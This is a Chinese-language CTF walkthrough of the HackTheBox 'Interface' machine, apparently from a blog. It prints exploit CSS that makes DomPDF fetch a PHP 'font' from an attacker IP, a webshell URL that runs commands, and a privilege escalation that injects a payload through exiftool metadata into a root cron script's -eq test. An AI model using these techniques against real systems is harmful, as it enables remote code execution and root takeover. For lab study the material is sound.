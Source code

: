 # Interface

Interface 是一种中等难度的 Linux 机器，具有“DomPDF”API 端点，该端点通过将“CSS”注入处理后的数据而容易受到远程命令执行的影响。“DomPDF”可以被诱骗在其字体缓存中存储带有“PHP”文件扩展名的恶意字体，然后可以通过从其公开的目录访问它来执行它。权限提升涉及在 bash 脚本中滥用带引号的表达式注入。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/123fab44-1841-84ca-b24a-0d0884bf0cbd.png)

### Web枚举

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/1f4e2eea-7dd7-cc47-df30-73af62fec2fe.png)

在响应头中，能看到它的域名

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/ac4fff80-caa5-3a78-91bf-71e5b27b4e50.png)

ffuf

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/52c4a090-c32c-cffa-d369-69f0558a2830.png)

/api端点

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/617aaa68-afb9-4d8a-5f69-c642add9b329.png)

这里html转成了pdf

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/a074845a-3622-7b1f-5bc5-6af108003acd.png)

## Foothold

在pdf中纰漏了dompdf 1.2.0

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/1dfbaa0a-3254-e310-7576-41ee8f52a4af.png)

在谷歌中能够找到该版本存在问题，并且github上还有exp

https://github.com/positive-security/dompdf-rce

从exp的exploit.css也就不难看出大概是怎么回事了

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.14.18:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/5bf749bc-1733-f04d-941d-14cf6257c54b.png)

改一下exploit_font.php

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/f15c062e-aefd-eaf7-a9fd-9195e1963e3d.png)

打exp,目标将会缓存我们的字体文件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/58b192aa-4320-5be2-d0dd-d46712a42803.png)

获取字符串md5，用于缓存文件名的组成

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/6af86b5d-0972-be8a-0f7b-43774eb62792.png)

9001还是用python3开http server才能正常

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/2b0953da-f712-0fd2-b487-5ccaa297969d.png)

访问文件

	http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_b82f3437a14b588f9bc8cdb2cd1baaf2.php?cmd=id

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/bd1c7a85-cc12-daa1-220b-13827318454e.png)

常规python3 reverse shell

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/e066131d-c871-d8cb-591e-24c6963d7aea.png)

## 本地权限提升

传个pspy过去发现有shell脚本在跑

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/f8eb4eed-6ec8-8f99-a23f-55d0b66b0f0a.png)

```bash
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```

使用exiftool读取Producer信息，然后判断它是否等于dompdf

[这篇文章](https://dev.to/greymd/eq-can-be-critically-vulnerable-338m)告诉我们这个shell代码可能会导致插入恶意shell命令并且被执行

	if [[ "$meta_producer" -eq "dompdf" ]];

首先写一个shellcode或者其他的命令文件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/43e0ccbe-2414-9872-0069-cd7be05ade43.png)

通过exiftool插入payload，然后将文件移动到/tmp

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/9705b77f-83ba-54f2-fb86-947934ef2471.png)

等待计划任务执行，我们将能得到它

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/2731f859-bc24-a0d8-6e44-92200b4f2dc6.png)

